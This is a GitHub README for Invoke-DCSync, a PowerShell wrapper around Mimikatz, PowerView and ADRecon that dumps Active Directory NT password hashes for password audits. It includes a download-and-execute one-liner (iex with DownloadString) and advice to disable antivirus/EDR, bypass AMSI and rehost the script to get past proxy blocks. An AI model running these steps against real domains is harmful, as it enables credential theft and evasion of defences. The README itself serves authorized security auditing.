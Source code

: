 <div align="center" width="100%">
    <h1>Invoke-DCSync</h1>
    <p>PowerShell Script to DCSync NT Password Hashes from Active Directory for Password Auditing</p><p>
    <a target="_blank" href="https://github.com/pentestfactory"><img src="https://img.shields.io/badge/maintainer-Pentest%20Factory-orange" /></a>
    <a target="_blank" href="https://github.com/pentestfactory/Invoke-DCSync/graphs/contributors/"><img src="https://img.shields.io/github/contributors/pentestfactory/Invoke-DCSync.svg" /></a><br>
    <a target="_blank" href="https://github.com/pentestfactory/Invoke-DCSync/commits/"><img src="https://img.shields.io/github/last-commit/pentestfactory/Invoke-DCSync.svg" /></a>
    <a target="_blank" href="https://github.com/pentestfactory/Invoke-DCSync/issues/"><img src="https://img.shields.io/github/issues/pentestfactory/Invoke-DCSync.svg" /></a>
    <a target="_blank" href="https://github.com/pentestfactory/Invoke-DCSync/issues?q=is%3Aissue+is%3Aclosed"><img src="https://img.shields.io/github/issues-closed/pentestfactory/Invoke-DCSync.svg" /></a><br>
        <a target="_blank" href="https://github.com/pentestfactory/Invoke-DCSync/stargazers"><img src="https://img.shields.io/github/stars/pentestfactory/Invoke-DCSync.svg?style=social&label=Star" /></a>
    <a target="_blank" href="https://github.com/pentestfactory/Invoke-DCSync/network/members"><img src="https://img.shields.io/github/forks/pentestfactory/Invoke-DCSync.svg?style=social&label=Fork" /></a>
    <a target="_blank" href="https://github.com/pentestfactory/Invoke-DCSync/watchers"><img src="https://img.shields.io/github/watchers/pentestfactory/Invoke-DCSync.svg?style=social&label=Watch" /></a><p>
</div>

## 💎 Features

Invoke-DCSync is a PowerShell wrapper script around popular tools such as PowerView, Invoke-Mimikatz and ADRecon. 

It automates the task of dumping NT password hashes from an Active Directory environment. The script was designed for Active Directory password audits, where extracted password hashes undergo a cracking process in order to outline password strength and policy weaknesses. 

The script will parse the output of Mimikatz's DCSync and create two separate folders with output files:
- A directory `CUSTOMER` with detailed information about Active Directory users and their NT password hashes. The import file in this directory will later be used to establish a reference between an AD user and a cracked password hash.
- A directory `PTF` with information about NT password hashes only. This folder may be shared with an external security vendor that conducts offline password cracking. User information from ADRecon are not linked to an extracted NT password hash.

## 🎓 Usage

To utilize this PowerShell script, it's recommended to disable Antivirus/EDR. Alternatively, if no advanced EDR is in use, it may be sufficient to bypass AMSI for the current PowerShell process.

The script must be run in the context of an Active Directory domain user with DCSync rights. Usually, a Domain Administrator (DA) user account is privileged enough and recommended for ease of use. You may obtain a PowerShell terminal in the context of such domain user via the following PowerShell command:

````powershell
runas.exe /netonly /noprofile /user:example.com\dcsyncuser "powershell.exe -ep bypass"
````

Other from that, it's a matter of running the PowerShell .PS1 script:

````powershell
iex(new-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/pentestfactory/Invoke-DCSync/main/Invoke-DCSync.ps1')
````

You will be prompted about the target AD domain. Confirm to start the DCSync extraction process of NT password hashes. 

As soon as the script finishes, a new Windows file explorer will open automatically and display the relevant output directories.

## 🔎 FAQ

**Q**: Why do I have to disable Antivirus/EDR/AMSI?

**A**: This PowerShell wrapper script heavily relies on popular tooling such as PowerView, Mimikatz and ADRecon. Those tools are known and flagged by AV vendors to be malicious. If you run this PowerShell script with enabled AV/EDR/AMSI, the script will likely be detected as malicious and blocked from being executed.

---

**Q**: Why are there two separate directories?

**A**: This PowerShell wrapper script was designed to automate the initial process of extracting NT password hashes in order to conduct password cracking. The script will parse Mimikatz's DCSync output into separate directories to establish some kind of privacy. The `CUSTOMER` folder can remain on the customer side, which contains sensitive information about AD users and the belonging password hashes. The `PTF` folder on the other hand 'only' contains NT password hashes without a reference to the actual AD user account that is linked to this password hash.

---

**Q**: On which IT system must this script be run?

**A**: This PowerShell wrapper script can be run on any domain-joined computer in the target AD environment. It's also possible to execute it from an unjoined computer system. Just make sure that your IT system can talk to the Domain Controller (DC), uses the proper DNS servers to resolve hostnames and that you spawn a PowerShell terminal in the context of a DCSync privileged AD account (e.g. Domain Administrator).

---

**Q**: The computer on which the PowerShell script shall run does not have an Internet connection. How can I run the script?

**A**: You can download the GitHub repo locally onto disk. However, AV/EDR must be disabled as the scripts will likely be flagged as malicious. Then proceed by executing the `/run-locally/Invoke-DCSync-Locally.ps1` script.

---

**Q**: The computer on which the PowerShell script shall run uses a company proxy that blocks the GitHub domain. How can I run the script?

**A**: You can host the script on a different domain under your control, which is not blacklisted. Alternatively, you can download/copy the GitHub repo locally onto disk. However, AV/EDR must be disabled as the scripts will likely be flagged as malicious. Then proceed by executing the `/run-locally/Invoke-DCSync-Locally.ps1` script.

---

**Q**: Do I have to conduct some form of cleanup after the script was run?

**A**: Please re-active any AV/EDR solutions, which were previously deactivated. Furthermore, you may want to restart the computer on which the script was run. This ensures that all scripts, which were loaded into memory, are removed completely. Finally, ensure that the exported data is treated as very sensitive and stored securely. Only authorized personell should be able to access the DCSync exports.
